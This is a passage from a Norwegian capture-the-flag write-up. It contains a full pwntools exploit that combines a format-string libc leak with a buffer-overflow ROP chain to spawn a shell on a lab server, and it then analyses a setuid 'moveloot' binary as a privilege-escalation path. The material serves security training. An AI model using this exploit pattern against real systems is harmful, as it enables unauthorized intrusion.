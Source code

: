 ```python

r.interactive()
```

Dette gir et shell på serveren, og `cat FLAG` printer dette ut.

Alternativ løsningemetode, via ROP:

```python
from pwn import *
context.arch = 'amd64'

s = remote('cloud-c2-70', 1337)

s.sendlineafter('> ', '%p.%3$p')
leaks = s.recvline().split(b"'")[1].split(b'.')
libc_address = int(leaks[1], 16) - 0x93b40

POP_RDI = libc_address + 0x152bc
BIN_SH = libc_address + 0x8e3c9
SYSTEM = libc_address + 0x3dc5f

p = b'A' * 136
p += p64(POP_RDI)
p += p64(BIN_SH)
p += p64(SYSTEM)

s.sendlineafter('> ', p)
s.interactive()
```

Resultatet er det samme, men uten å vite versjonene av alt, så kan denne metodikken være litt vanskeligere. Det er også mulig å løse denne oppgaven via format-string, muligens ved å overskrive strengen `uptime` med `ash` eller lignende, men jeg undersøkte ikke dette noe nærmere.

## 2.3_loot_home

Fra forrige oppgave, så lander vi i `/home/lootd`, hvor det ligger et flagg. Det ligger også et flagg i `/home/`, så `cat ../FLAG` printer ut dette.

## 2.4_loot_vault

Målet med denne oppgaven, er å få tilgang til `/vault/loot`, som er eid av brukeren `vault`. Etter exploiten fra 2.2 er vi "innlogget" som brukeren `lootd`, så vi har ikke tilgang til å en gang liste filer i loot-mappen. `/usr/sbin/moveloot`, som blir kalt fra `lootd`, er derimot en setuid-binary eid av `vault`, så den har tilgang.

`moveloot` tar 3 parametere: filnavn, access token, og et valgfritt sekvensnummer. Hvis filnavn ikke er spesifisert, så leser moveloot inn data og skriver dette til en fil inne i `/vault/loot`, hvor navnet er tilfeldig generert. Hvis filnavn er spesifisert, så forsøker den å lese ut filen. Om filnavn inneholder slash eller dot, så må access token være spesifisert, og denne må matche innholdet i filen `/vault/loot/key`.
